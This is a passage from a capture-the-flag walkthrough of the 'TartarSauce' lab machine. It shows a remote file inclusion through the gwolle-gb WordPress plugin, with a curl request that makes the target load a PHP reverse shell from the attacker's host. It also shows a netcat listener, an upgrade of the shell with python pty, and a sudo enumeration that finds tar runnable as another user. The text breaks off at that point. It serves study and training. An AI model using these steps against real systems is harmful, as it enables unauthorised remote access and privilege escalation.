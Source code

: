 ```bash
nc -lvp 1234
```

```bash
# COPY THE REVERSE SHELL
locate php-reverse-shell.php
# mv the reverse shell file to folder
cp php-reverse-shell.php wp-load.php
```

```bash
curl -s http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.4/
```

Excellent! we will get the shell,

```bash
id
# www-data
```

 Let's upgrade the shell
 
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

And we have no privileges to access onuma folder.

```txt
www-data@TartarSauce:/home$ cd /home/onuma
cd /home/onuma
bash: cd: /home/onuma: Permission denied
```

![[TartarSauce-11.png]]

# Privilege Escalation

## Privesc: www-data –> onuma

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
### Enumerate

```bash
sudo -l
```

```txt
www-data@TartarSauce:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar

```
